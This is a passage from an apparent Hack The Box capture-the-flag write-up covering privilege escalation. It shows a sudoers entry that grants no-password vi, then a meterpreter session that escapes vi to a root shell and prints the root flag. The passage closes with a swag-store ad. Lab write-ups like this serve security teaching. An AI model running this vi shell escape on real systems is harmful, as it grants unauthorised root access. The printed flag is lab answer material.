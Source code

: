 ```

www-data ALL=NOPASSWD:/usr/bin/vi /var/www/html/*
```

So we have no-password sudo access to run vi in a given directory. This is super dangerous.

```
meterpreter> shell
sudo vi /var/www/html
:set shell=/bin/sh
:shell
whoami
root
cat /root/root.txt
c2b087d66e14a652a3b86a130ac56721

   ___ ___
 /| |/|\| |\
/_| ´ |.` |_\           We are open! (Almost)
  |   |.  |
  |   |.  |         Join the beta HTB Swag Store!
  |___|.__|       https://hackthebox.store/password

                   PS: Use root flag as password!
